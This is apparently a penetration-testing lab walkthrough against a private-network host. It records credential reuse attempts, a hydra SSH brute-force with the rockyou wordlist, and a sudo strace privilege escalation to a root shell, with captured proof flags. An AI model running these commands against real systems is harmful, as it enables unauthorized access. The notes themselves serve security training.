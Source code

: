 
Database password from web `Strong.DB?Password` 
```
ssh root@192.168.140.110 
```
	Nope
Maybe: `Strong.SSH?Password`
	Nope

No service version exploit found

Trying a hydra SSH Bruteforce
```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.140.110 -t 4 -I
```

ssh lisa@192.168.140.110
`f8a63013dc7e7d4d389dd679b6a367c4`

![[Pasted image 20231219113647.png]]

### Priv Esc
$ sudo -l
[sudo] password for lisa: 
Matching Defaults entries for lisa on oscp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User lisa may run the following commands on oscp:
    (root) /usr/bin/strace
    (root) /usr/bin/newgrp

GTFO Bins
https://gtfobins.github.io/gtfobins/strace/#sudo

```sh
sudo strace -o /dev/null /bin/sh
```

Now get root flag
```sh
echo " "; echo "uname -a:"; uname -a; \
echo " "; echo "hostname:"; hostname; \
echo " "; echo "id"; id; \
echo " "; echo "ifconfig:"; /sbin/ifconfig -a; \
echo " "; echo "proof:"; cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null; echo " "
```
![[Pasted image 20231219114049.png]]

`4de8d883f62e0d743df54fcc2f543d9b`

## 80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Index of /
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
